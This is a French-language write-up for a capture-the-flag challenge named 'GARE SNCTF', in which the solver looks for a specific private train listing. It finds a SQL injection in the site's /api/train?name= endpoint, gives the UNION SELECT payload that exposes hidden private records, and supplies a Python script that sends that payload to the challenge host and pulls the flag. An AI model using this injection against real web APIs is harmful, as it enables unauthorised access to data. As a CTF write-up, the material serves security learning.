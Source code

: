# GARE SNCTF - Writeup


**LORE :** Ah, tu as trouvé toutes les informations sur le train ? Maintenant, il te reste juste à mettre tout ça en lien et à trouver le bon train sur leur site. Et bientôt, tu seras riche avec tout cet OR.

Format flag: SNCTF{ }


![alt text](image.png)


On recharchant tout les info qu'on a sur le train soit. Et on sait qu'on cherche de l'OR

```
track 2B
wagon C4
date 2024-09-16
hour 2:00
freight OR
```

Après chercher les infos des trains on voit vite qu'on ne trouve aucun train valide

Le train le plus proche
![alt text](image-1.png)
Mais l'heure est pas valide

En trouvant l'api endpoint `/api/train?name=` et une injection SQL
`' UNION SELECT * from train --'` on découvre qu'il y a des trains privés et nom privés

![alt text](image-2.png)

Du coup à partir de la on peut utiliser l'api pour trouver le bon train

```py
import requests
from icecream import ic


URL = "http://samuel-lab.freeboxos.fr:11000/api/train?name=%27%20UNION%20SELECT%20*%20from%20train%20--%27"

response = requests.get(URL)
data = response.json()

for train in data["train"]:
    if train['track'] == '2B' and train['wagon'] == 'C4' and train['date'] == '2024-09-16' and train['hour'] == '2:00' and train['freight'] == 'OR' and train['private'] == 1:
        print(f"Flag: SNCTF{{{train['uuid']}}}")
        break

```

Il y a bien sur plusieurs moyens de trouver le bon train. Avec une full reques sql.